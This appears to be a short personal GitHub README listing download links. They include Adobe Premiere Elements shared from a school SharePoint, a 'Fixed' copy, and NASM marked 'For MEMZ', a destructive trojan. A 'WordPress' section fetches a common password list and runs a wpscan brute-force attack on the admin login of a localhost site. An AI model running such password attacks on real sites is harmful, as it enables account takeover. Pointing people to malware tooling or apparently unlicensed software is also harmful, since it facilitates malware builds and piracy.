 # Files
[Cloud Penguin](./Cloud Penguin Installer.zip)  
[Multi-Bot Add On](https://cloudpengu.in/store/#view:09d0682c-0637-48f0-9736-9a0d126a5ff4)  
[Adobe Premiere Elements](https://lynbrookpublicschools-my.sharepoint.com/personal/blarkin_lynbrookschools_org/_layouts/15/guestaccess.aspx?docid=0e45e026f6b1947edab8432a0e64e1df9&authkey=AUkMqTr8Rh5RErnPo_FJz6Q)  
[Adobe Premiere Elements ***Fixed***](adobe.html)   
[qemu {Bootloader}](https://qemu.weilnetz.de/)   
[nasm ***For MEMZ***](http://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D)   
## WordPress
     wget https://github.com/danielmiessler/SecLists/blob/master/Passwords/10_million_password_list_top_10000.txt
Run attack

     wpscan –url localhost –wordlist ~/10_million_password_list_top_10000.txt –user admin
